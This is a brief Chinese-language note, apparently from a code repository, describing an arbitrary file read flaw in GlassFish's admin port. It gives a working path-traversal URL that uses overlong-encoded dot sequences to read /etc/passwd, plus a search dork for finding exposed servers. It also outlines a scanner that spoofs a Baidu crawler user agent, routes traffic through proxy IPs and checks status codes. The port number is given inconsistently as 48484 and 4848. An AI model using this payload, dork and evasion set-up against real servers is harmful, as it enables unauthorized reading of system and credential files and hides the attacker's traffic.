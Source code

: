 glassfish存在任意文件读取在默认48484端口，漏洞验证的poc为:

http://localhost:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd--- 

"glassfish"&&"4848"

---根据url构建poc（分别为Windows和Linux的poc）

---这里添加了数据包的头部为：百度爬虫；设置了代理IP，报错是应为这个poc不适合 

---根据状态码的返回来判断漏洞是否存在 





